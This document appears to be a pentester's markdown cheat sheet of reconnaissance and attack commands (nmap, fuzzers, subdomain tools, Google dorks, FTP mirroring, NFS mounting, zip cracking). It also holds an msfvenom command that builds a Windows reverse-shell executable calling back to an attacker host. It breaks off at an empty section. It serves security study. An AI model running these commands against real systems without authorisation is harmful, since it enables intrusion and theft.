 
What should be our Methodology when we are seeing a Website  ??
- Service Version Information
- Backend Directory's
- Looking for Source Code
- Potential Vulnerability Scanning With Nikto

<h2>Nmap</h2>

Normal Nmap Scanning
```
nmap -T4 -p- -A -Pn <IP_Address>
```

```
nmap -sS -T4 -p- -Pn <IP_Address>
```

```
nmap -sU -T4 --top-ports 1000 <IP_Address>
```

Ping Sweep
```
nmap -sn -n 10.200.95.0/24 -oA Ping-Sweep
```

```
nmap -sS 10.200.145.33 10.200.145.250 -v -oA Initial-Scan-Subnet1-Hosts
```

<h2>Nikto</h2>
```
 nikto -h <IP_Address>
```

<h2>Fuzzing</h2>
>[!important]  Gobuster

Vhost
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<IP_Address> -o gobuster/vhost-sub.txt -t 2
```

```
gobuster vhost -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://<IP_Address> -t 2 -o gobuster/vhost-sub.txt
```



>[!important] Wfuzz
```
wfuzz -u <URL> -w <wordlist> -H "Host: FUZZ.example.com" --hc <status codes to hide>
```

```
wfuzz -u http://<Hostname> -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.<hostname>" --hc 400
```

```
--hc Hide status code
--hw Hide word count
--hl Hide line count
--hh Hide character count
```


>[!important] ffuf
```
ffuf -u http://holo.live -w /usr/share/wordlists/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -H "HOST:FUZZ.holo.live" -mc 200 -o fuzz_holo.txt
```

```
Response code :
200 means ok
400 means error (i.e. 404 page not found)
300 means redirect
500 means server error
```

>[!important] 


<h2>Sub-Domains</h2>
Sublist3r
```
sublist3r -d <domain_name> -t 100
```

Amass
```
amass enum -d tesla.com 
```

```
amass intel -d tesla.com -whois
```

Httpprobe
```
cat domains.txt | httprobe >> working_domains.txt
```


<h2>Enumeration</h2>
```
wpscan -url <IP_address>    
```


```
whatweb <domain_name>
```


<h2>Google Dorks</h2>
```
site:tesla.com 
```

```
site:tesla.com -www
```

```
site:tesla.com -www -ir 
```

```
site:tesla.com filetype:docx
```

```
site:tesla.com filetype:pdf
```




<h2>Nessus</h2>
```
sudo dpkg -i Nessus-10.2.0-fbsd11-amd64.deb
```

New Scan ---> Vulnerability ---> Basic Network Scan

```
/bin/systemctl start nessusd.service
```

```
https://kali:8834/ 
```

 NEVER TRUST a vulnerability scanner always find it and verify it........


<h2>IP</h2>
```
After we run this command than only we were able to see the IP address.
Command : dhclient
Command : ip a 
```


<h2>ARP-Scan</h2>
```
arp-scan -l
```


<h2>FTP</h2>
```
FTP <ip address>
```

if want to download all the files:
```
wget -m ftp://anonymous:anonymous@10.10.10.98 #Donwload all
```

```
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98 #Download all
```


<h2>NFS</h2>
```
Command : showmount -e <Ip address>
where e is used to list out the directories (i.e. mounted file share)
```

```
Command : mkdir /mnt/dev
Command : mount -t nfs 192.168.205.132/srv/nfs /mnt/dev
```

```
Now will make a directory to mount this file share (i.e. /srv/nfs )
will cd to /mnt (i.e. will have a by default directory named mnt )
where t is tack and nfs is the type 
```



<h2>Crack ZIP</h2>
```
 fcrackzip -v 
```

```
 fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```


<h2>MS Venom</h2>
```
Command : msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.205.128 LPORT=7777 -f exe > Wise.exe
```
where p is payload and f is filetype -o/> for output file



<h2>Dnsrecon </h2>
```
Command : dnsrecon -r 127.0.0.0/24 -n 192.168.205.134 -d blah
```

```
As there is dns record named blackpearl.tcm and have to add that in our Dns and etc/hosts file
Command : nano /etc/hosts (i.e. we have to add the edit the hosts file and not host)
And add 
192.168.205.134 blackpearl.tcm and save it 
```


<h2>Buffer Overflow</h2>

Install Windows 10 in the VM
[Windows 10](https://www.microsoft.com/en-in/evalcenter/evaluate-windows-10-enterprise)

[Immunity Debugger](https://www.immunityinc.com/products/debugger/)

[Vulnserver](https://thegreycorner.com/vulnserver.html) 
Remember that we have to STOP the security (i.e. Windows Defender and than install the software cux it was not letting me to open that )

Spi
```

```

